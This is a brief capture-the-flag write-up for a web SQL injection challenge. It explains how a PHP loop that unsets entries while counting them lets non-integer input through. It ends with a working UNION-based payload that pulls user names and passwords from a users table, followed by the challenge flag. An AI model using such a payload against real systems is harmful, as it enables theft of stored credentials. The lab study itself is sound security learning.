

Another SQLi challenge, YAY :D

Here we can see this loop
```php
$tmp = explode(',',$_GET['ids']);
  for ($i = 0; $i < count($tmp); $i++ ) {
        $tmp[$i] = (int)$tmp[$i];
        if( $tmp[$i] < 1 ) {
            unset($tmp[$i]);
        }
  }
```
If we will supply the input: `1,0,0,0`, each time `i` is getting larger and `count($tmp)` get decreased! so, when `i` will be `3`, count will be too `3`, after deleting two `0`, and will exit the loop, and we will remain with `1,0`!

Same, we could have supply something like: 
`1,0,0,OurSubQuery:D`, and we will remain with `1,OurSubQuery:D`

So, let's build our payload, when this is the query:
```php
$query = "SELECT user_id, user_privileges, user_name
  FROM users
  WHERE (user_id in (" . $selector . "));";
```

We need to close `))`, and then injecting `Union select user_id, user_name, user_password from users--`.

And this is our payload:
`1,0,0,0,0))+Union+select+user_id,user_name,user_password+from+users--`



**Flag:** ***`WEBSEC{SQL_injection_in_your_cms,_made_simple}`*** 
